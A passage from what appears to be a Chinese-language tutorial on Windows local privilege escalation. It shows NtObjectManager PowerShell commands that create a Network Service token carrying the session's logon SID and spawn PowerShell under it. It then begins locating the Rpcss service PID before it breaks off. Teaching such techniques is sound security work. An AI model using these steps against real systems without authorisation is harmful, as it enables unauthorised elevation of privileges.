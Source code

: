 图 22 system 权限 PowerShell

接着我们先导入先前下载的包，接着获取当前的会话令牌，然后创建新的 Network Service 令牌并添加 SID 到组，最后使用新的令牌启动一个 Network Service 的 PowerShell。具体命令如下。

```plain
Import-Module C:\NtObjectManager
$sess = Get-NtToken -Session
$token = Get-NtToken -Service NetworkService -AdditionalGroups $sess.LogonSid.Sid
New-Win32Process PowerShell -Token $token -CreationFlags NewConsole
```

开启 Network Service 的 PowerShell，如图 23 所示。

![](assets/1706773615-c941f99591ccaabae1cabd10d2787dc2.jpg)

图 23 Network Service 的 PowerShell

首先我们需要知道 Rpcss 服务的 Pid。通过任务管理器查看 Rpcss 服务 Pid 如图 24 所示。
